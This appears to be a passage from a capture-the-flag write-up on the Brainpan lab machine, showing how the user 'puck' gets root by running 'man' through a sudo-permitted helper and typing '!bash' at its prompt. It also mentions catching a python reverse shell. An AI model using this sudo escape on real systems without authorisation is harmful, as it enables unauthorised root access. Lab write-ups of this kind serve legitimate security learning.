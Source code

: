 	id
	uid=1002(puck) gid=1002(puck) groups=1002(puck)

	sudo -l
	Matching Defaults entries for puck on this host:
		env_reset, mail_badpass,
		secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

	User puck may run the following commands on this host:
		(root) NOPASSWD: /home/anansi/bin/anansi_util

Remember, we are logged as "**puck**", so we don't have access to **/home/anansi**. However, can see a program there that we can use via **sudo**.

About this program "anansi_util":

	$ sudo /home/anansi/bin/anansi_util
	Usage: /home/anansi/bin/anansi_util [action]
	Where [action] is one of:
		- network
		- proclist
		- manual [command]

We're under "wine", and spawning a shell this was very ~~annoying~~ unstable, so we call again a **reverse shell** with python, and "catching it" with the attack machine (Yes, a Yo-yo shell). (Also, all privilege escalation attempts were impossible without a tty shell).

After some testing, we see something interesting about "manual" (Which runs the "man" command, or "manual" pages).

It turns out, we can spawn a shell inside "man":

	puck@brainpan:~$ sudo -l
	sudo -l
	Matching Defaults entries for puck on this host:
		env_reset, mail_badpass,
		secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

	User puck may run the following commands on this host:
		(root) NOPASSWD: /home/anansi/bin/anansi_util

	puck@brainpan:~$ sudo /home/anansi/bin/anansi_util manual man
	sudo /home/anansi/bin/anansi_util manual man
	No manual entry for manual
	WARNING: terminal is not fully functional
	-  (press RETURN)!bash
	!bash
	root@brainpan:/usr/share/man#

	root@brainpan:/root# whoami
	whoami
	Root

It worked, because when calling "man man", we're prompted for "RETURN" or "quit", and we can simply call "!/bin/bash" instead to spawn a shell, and since "man" is ran with superuser privileges, they don't get dropped and we've successfully leveraged "man" to escalate privileges. It's a weird privilege escalation technique, and remember, we're still using "man" so it is kept running until we exit from the root shell.


[^1]: https://github.com/dievus/threader3000